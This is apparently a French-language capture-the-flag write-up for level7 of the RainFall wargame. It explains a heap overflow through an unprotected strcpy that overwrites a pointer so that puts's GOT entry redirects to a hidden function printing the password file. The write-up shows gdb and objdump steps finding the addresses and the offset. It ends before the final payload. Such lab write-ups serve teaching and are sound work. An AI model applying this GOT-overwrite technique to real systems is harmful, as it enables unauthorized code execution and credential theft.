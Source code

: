   * Ok on a une fonction m qui n'est pas appelée mais qui print le contenu de la globale c qui est remplie avec le contenu du fichier de password

## 2: Comportement
> Une fois recomposé, on comprend que le programme copie nos arguments en parametre dans la heap, copie le password dans une globale et print "~~".
> Une fonction qui print la globale c n'est pas appelée. Surement une fonction de debug qui a pas été appelée encore une fois: donc supprimez vos fonctions qui print vos password avant de livrer le code!

## 3: Exploit

### A: Explication

> On va grâce au premier strcpy non protégé faire un heap overflow et réécrire sur l'addresse de array2[1] contenue dans la heap.\
> A la place de cette addresse, on va passer l'addresse du GOT de la fonction puts pour que le 2eme strcpy écrive l'addresse de la fonction m dans la GOT de puts au lieu de l'écrire dans la HEAP.
> L'execution va se passer normalement jusqu'au puts qui redirigera donc vers la fonction m qui print notre password.

### B: Creation de l'exploit

* Il nous faut donc: l'adresse de m, de GOT[puts] et à partir de combien de char sur le premier parametre on va réécrire sur l'addresse array2[1]

```shell
  # Addresse de m (vu pendant l'analyse)
  gdb-peda$ info function m
    [...]
    0x080484f4  m
    [...]
  
  # Addresse de puts
  level7@RainFall:/tmp$ objdump -R ~/level7
    [...]
    08049928 R_386_JUMP_SLOT   puts
    [...]

  # On cherche au bout de combien de char on réécrit sur array2[1]
  gdb-peda$ pattern create 200 pattern7
    Writing pattern of 200 chars to filename "pattern6"
  gdb-peda$ run $(cat pattern7) RANDOMCHARS
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    [...]
    [-------------------------------------code-------------------------------------]
    [...]
    [------------------------------------stack-------------------------------------]
    [...]
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0xb7eb8f92 in ?? ()
  gdb-peda$ pattern search
    Registers contain pattern buffer:
    [...]
    # On a notre offset
    EDX+0 found at offset: 20
    [...]
```
